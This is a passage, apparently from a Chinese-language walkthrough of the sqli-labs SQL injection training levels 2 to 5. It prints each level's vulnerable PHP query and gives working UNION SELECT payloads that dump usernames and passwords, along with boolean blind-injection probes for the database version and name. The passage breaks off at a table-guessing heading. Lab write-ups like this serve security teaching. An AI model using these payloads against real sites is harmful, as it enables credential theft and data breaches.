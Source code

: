 ```
?id=-1 UNION+SELECT+1,2,(SELECT+GROUP_CONCAT(username,password+SEPARATOR+0x3c62723e)+FROM+users)--+
```

## less-3
##### index.php
与 less-1 相比闭合方式不同
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```
使用`'`提示报错
使用`' and 1=1 --+`和`' and 1=2 --+` 判断出存在注入  
注入方式与less-1 一样
#### payload
```
?id=-1') UNION+SELECT+1,2,(SELECT+GROUP_CONCAT(username,password+SEPARATOR+0x3c62723e)+FROM+users)--+
```
## less-4
##### index.php

```
$id=$_GET['id'];
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```
拼接方式相当于：`id=("$id")`
使用`"`提示报错

```
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1 
```
这里它意味着，代码当中对 id 参数进行了""和 () 的包装。  
使用`") and 1=1--+`和`'") and 1=2--+` 判断出存在注入  
#### payload
```
?id=-1") UNION+SELECT+1,2,(SELECT+GROUP_CONCAT(username,password+SEPARATOR+0x3c62723e)+FROM+users)--+
```
## less-5
这里不会在回显,查询正确返回`you are in ...`查询语句出错返回`数据库报错信息`
##### index.php

```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if($row){
echo 'You are in...........';
}else{
print_r(mysqli_error($con1));
}
```
因为不输出查询的结果，这就导致不可以使用联合查询的注入方式，但是并不影响正常使用报错、布尔盲注和延时盲注。  
使用`substr`、`left`、`length`等判断是否存在注入  
判断MYSQL版本
```
?id=1'and substr(version(),1,1)=5 --+
?id=1'and left(version(),1)=5 --+
?id=1'and length(database())=8 --+
```
#### 猜测表名